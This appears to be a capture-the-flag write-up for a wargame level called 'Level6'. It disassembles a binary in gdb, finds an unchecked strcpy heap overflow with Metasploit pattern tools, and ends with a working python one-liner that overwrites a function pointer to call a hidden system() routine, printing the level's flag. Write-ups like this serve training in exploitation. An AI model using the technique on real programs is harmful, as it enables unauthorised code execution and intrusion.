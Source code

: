 # Level6

    (gdb) disas main
    Dump of assembler code for function main:
        0x0804847c <+0>:	push   %ebp
        0x0804847d <+1>:	mov    %esp,%ebp
        0x0804847f <+3>:	and    $0xfffffff0,%esp
        0x08048482 <+6>:	sub    $0x20,%esp
        0x08048485 <+9>:	movl   $0x40,(%esp)
        0x0804848c <+16>:	call   0x8048350 <malloc@plt>
        0x08048491 <+21>:	mov    %eax,0x1c(%esp)
        0x08048495 <+25>:	movl   $0x4,(%esp)
        0x0804849c <+32>:	call   0x8048350 <malloc@plt>
        0x080484a1 <+37>:	mov    %eax,0x18(%esp)
        0x080484a5 <+41>:	mov    $0x8048468,%edx
        0x080484aa <+46>:	mov    0x18(%esp),%eax
        0x080484ae <+50>:	mov    %edx,(%eax)
        0x080484b0 <+52>:	mov    0xc(%ebp),%eax
        0x080484b3 <+55>:	add    $0x4,%eax
        0x080484b6 <+58>:	mov    (%eax),%eax
        0x080484b8 <+60>:	mov    %eax,%edx
        0x080484ba <+62>:	mov    0x1c(%esp),%eax
        0x080484be <+66>:	mov    %edx,0x4(%esp)
        0x080484c2 <+70>:	mov    %eax,(%esp)
        0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
        0x080484ca <+78>:	mov    0x18(%esp),%eax
        0x080484ce <+82>:	mov    (%eax),%eax
        0x080484d0 <+84>:	call   *%eax
        0x080484d2 <+86>:	leave  
        0x080484d3 <+87>:	ret    
    End of assembler dump.
    (gdb) disas m
    Dump of assembler code for function m:
        0x08048468 <+0>:	push   %ebp
        0x08048469 <+1>:	mov    %esp,%ebp
        0x0804846b <+3>:	sub    $0x18,%esp
        0x0804846e <+6>:	movl   $0x80485d1,(%esp)
        0x08048475 <+13>:	call   0x8048360 <puts@plt>
        0x0804847a <+18>:	leave  
        0x0804847b <+19>:	ret    
    End of assembler dump.

This binary will write "nope" when ran with any argument.

Once again, an unused function : 

    (gdb) disas n
    Dump of assembler code for function n:
        0x08048454 <+0>:	push   %ebp
        0x08048455 <+1>:	mov    %esp,%ebp
        0x08048457 <+3>:	sub    $0x18,%esp
        0x0804845a <+6>:	movl   $0x80485b0,(%esp)
        0x08048461 <+13>:	call   0x8048370 <system@plt>
        0x08048466 <+18>:	leave  
        0x08048467 <+19>:	ret    
    End of assembler dump.

It will... you guessed it... display the PASSWORD

Let's first check if we can overflow strcpy (of course we can)

	$ msf-pattern_create -l100 > payload
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    (gdb) run < payload 
    Starting program: /home/user/level6/level6 < payload

    Program received signal SIGSEGV, Segmentation fault.
    0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
    (gdb) i r
    eax            0x804a008	134520840
    ecx            0x0	0
    edx            0x804a008	134520840
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff70c	0xbffff70c
    ebp            0xbffff738	0xbffff738
    esi            0x0	0
    edi            0x0	0
    eip            0xb7eb8aa8	0xb7eb8aa8 <--
    eflags         0x210296	[ PF AF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

It seems to segfault without overflowing any register. In fact, it appears that passing any file will cause a segfault. We need to pass the arguments directly as a string.

    (gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
    Starting program: /home/user/level6/level6 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

    Program received signal SIGSEGV, Segmentation fault.
    0x41346341 in ?? ()
    (gdb) i r
    eax            0x41346341	1093952321 <-- A4cA
    ecx            0xbffff900	-1073743616
    edx            0x804a064	134520932
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff69c	0xbffff69c
    ebp            0xbffff6c8	0xbffff6c8
    esi            0x0	0
    edi            0x0	0
    eip            0x41346341	0x41346341 <-- A4cA
    eflags         0x210202	[ IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

    $ msf-pattern_offset -q Ac4A
    [*] Exact match at offset 72

We can overflow EIP with the 73-76th characters. Let's pass the address of the n function after padding :

    ./level6 $(python -c 'print "Y"*72 + "\x54\x84\x04\x08"')
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
